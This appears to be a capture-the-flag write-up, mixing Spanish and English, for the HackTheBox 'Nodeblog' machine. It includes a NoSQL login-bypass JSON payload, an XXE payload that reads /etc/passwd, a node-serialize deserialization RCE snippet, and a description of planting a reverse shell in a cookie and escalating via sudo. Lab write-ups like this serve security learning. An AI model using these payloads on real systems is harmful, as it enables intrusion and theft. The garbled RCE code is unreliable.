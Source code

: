 ```yaml
---
title: Nodeblog Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


## Enumeration 

```ruby
 # Nmap 7.93 scan initiated Mon Jan 30 12:46:50 2023 as: nmap -p22,5000 -sCV -oN targeted 10.129.96.160
 Nmap scan report for 10.129.96.160
 Host is up (0.049s latency).
 
 PORT STATE SERVICE VERSION
 22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
 | ssh-hostkey: 
 | 3072 ea8421a3224a7df9b525517983a4f5f2 (RSA)
 |_ 256 b8399ef488beaa01732d10fb447f8461 (ECDSA)
 |_ 256 2221e9f48590908745161f733641ee3b32 (ED25519)
 5000/tcp open http Node.js (Express middleware)
 |_http-title: Blog
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's investigate the web page. We see that we come to a log panel, which we are going to try to bypass using noSQL:
You can guess that the username is `admin` , so let's use `$ne` to bypass the password. So we change Content-Type to Json and send the following request:

```json
{"user": "admin", "password": {"$ne": "wrongpassword"}}
```

And we would be logged in.

## User Exploit

En la sección de upload, podemos subir archivos, asi que vamos a intentar subirle un archivo XXE para sacarle la información de /etc/passwd:

```html
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <title>title</title>
    <description>desc</description>
    <markdown>&xxe;</markdown>
</creds>
```

y vemos que funciona.

Como vimos en el nmap, esta node.js detrás, asi que vamos a buscar el archivo `server.js` para ello, en la petición de burp para hacer el login bypass, vamos a meterle un overload al payload jason usando `{}{}{}{}{}{}` y vemos que nos tira el siguiente eror: `&nbsp; &nbsp;at /opt/blog/node_modules/body-parser/lib/read. js:121:18<br>` y como ese mucho más, así que vamos a intentar buscar el archivo `server.js` dentro del directorio `/opt/blog/` usando el XXE y vemos que tenemos exito. 

Leyendo el codigo que nos reporta, vemos que tiene esta parte interesante:
```js
function authenticated(c) {
    if (typeof c == 'undefined')
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash('md5').update(cookie_secret + c.user).digest('hex')) ){
        return true
    } else {
        return false
    }
}
```

But previously you have the following constant defined:
```js
const serialize = require('node-serialize')
```

Which serializes the data before sending it. However, this has an exploit, which we are going to use.
```node
``var` `y = {``
 ``rce :` `` `function``(){`
 `require(``'child_process'``).exec(``'ls /'``,` ` `function``(error, stdout, stderr) { console.log(stdout) });`
 `},`
`}`
`var` `serialize = require(```'node-serialize'``);``
`console.log(```"Serialized: ``+ serialize.serialize(y));``
```

Therefore, where the ls command is, we can inject another one, so let's create a file with a reverse shell, base it on base 64, and URL-encode it to finally put it in the session cookie. Finally, we do a reload and we have the reverse shell.

## Root Exploit

Doing a `ps -faux` we see that we have the port 27017 open, which is the one of mongo db, so we are going to connect using `mongo`. Once inside, we do `showdbs` and see several. Looking through them, we do a `show collections` and find the users table, finally we use `db.users.find()` and find the password of the admin user.

Finally, doing sudo -l we see that we can execute any command as root, so we do `sudo su` and we become root and send the flag. 
